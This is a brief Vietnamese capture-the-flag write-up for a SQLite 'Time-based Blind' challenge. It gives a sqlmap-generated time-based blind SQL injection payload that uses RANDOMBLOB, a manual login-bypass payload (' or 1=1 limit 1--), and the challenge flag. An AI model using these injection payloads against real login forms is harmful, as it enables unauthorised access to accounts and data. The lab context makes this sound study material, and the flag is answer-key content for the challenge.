


Time-based Blind

Title: SQLite > 2.0

Do không có thời gian viết code bài này nên mình dùng luôn sqlmap :))

Payload: **user=admin' OR 9766=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(500000000/2))))-- FdpX&pass=admin**

Cách 2: Không sử dụng sqlmap

Thử payload **' or 1=1—** có xuất hiện thông báo cố gắng đăng nhập với nhiều hơn 1 người dùng, ta thêm limit vào truy vấn để lấy thêm 1 bản ghi là ok

Payload: **user' or 1=1 limit 1—&pass=**

Flag: **ractf{Y0u_B3tt3r_N0t_h4v3_us3d_sqlm4p}**

